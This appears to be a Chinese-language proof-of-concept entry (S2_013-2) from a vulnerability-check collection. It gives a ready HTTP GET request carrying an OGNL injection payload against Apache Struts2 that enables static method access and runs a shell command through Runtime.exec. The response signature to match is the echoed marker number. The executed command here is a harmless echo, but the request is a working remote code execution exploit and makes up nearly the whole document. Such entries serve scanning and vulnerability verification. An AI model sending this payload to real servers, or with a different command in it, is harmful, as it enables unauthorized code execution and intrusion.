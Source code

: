 ﻿# S2_013-2

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /link.action?xxxx=$%7B(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('echo%2078468794903108696').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%23d)%2C%23out.close())%7D HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_013-2.poc

